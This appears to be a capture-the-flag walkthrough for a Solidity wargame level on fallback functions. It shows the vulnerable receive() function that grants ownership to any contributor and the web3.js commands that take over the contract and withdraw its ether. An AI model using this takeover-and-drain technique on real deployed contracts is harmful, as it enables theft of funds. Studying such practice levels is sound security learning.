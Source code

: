 First things first,

What is a fallback function?


In Solidity, a fallback function is an external function with neither a name, parameters, or return values.



Few notable properties of fallback function:

-> It is compulsory to mark it as external.

-> It should be marked as payable. If not, the contract will throw an exception if it receives ether without any data.

-> It is limited to 2300 gas if invoked by other functions.


The task:
![Fallback](https://user-images.githubusercontent.com/79459872/182846743-b0267e4b-9589-4968-9aa5-de4b7779f5a3.png)

1.Claim ownership of the contract.

2.Reduce its balance to 0.

Problem with contract:

Bad implementation of fall back functio i.e Changing contract ownership inside the fallback function.

Observe the condition seen in fallback function
 
 receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}

//
How to get ownership and winthdraw all the money out of the contract

 
Solution:

1.Your account address has to contribute to be mapped. 

await contract.contribute({value:3})

2.Trigger fallback function by sending transcation by using web3.js command.

await contract.sendTransaction({value:3})

Congrats!! u now own the contract.

3.Lastly to withdraw all the eth from the contract

await contract.withdraw()

------done------
